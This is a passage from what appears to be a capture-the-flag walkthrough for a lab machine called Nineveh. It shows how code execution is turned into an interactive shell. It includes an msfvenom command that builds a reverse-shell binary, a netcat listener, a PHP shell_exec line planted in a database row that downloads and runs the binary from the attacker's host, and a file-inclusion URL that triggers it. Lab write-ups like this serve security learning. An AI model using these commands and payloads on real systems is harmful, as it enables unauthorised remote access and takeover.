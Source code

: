 Finally! That is code execution. Use this to get a dedicated shell:

```bash
# generate payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
# host payload
sudo python3 -m http.server 80
# setup listener
nc -nvlp 6969
```

Now insert a new row in the table for that contains the following string:

```php
<?php shell_exec('wget -O /tmp/bubba.elf http://10.10.14.27/bubba.elf && chmod +x /tmp/bubba.elf && /tmp/bubba.elf'); ?>
```

![web18](./nineveh/web18.png)

Then trigger execution by browsing to the following link:

```
http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.txt.bubba.php
```

And this provides a shell, but not `user.txt`:

![user1](./nineveh/user1.png)
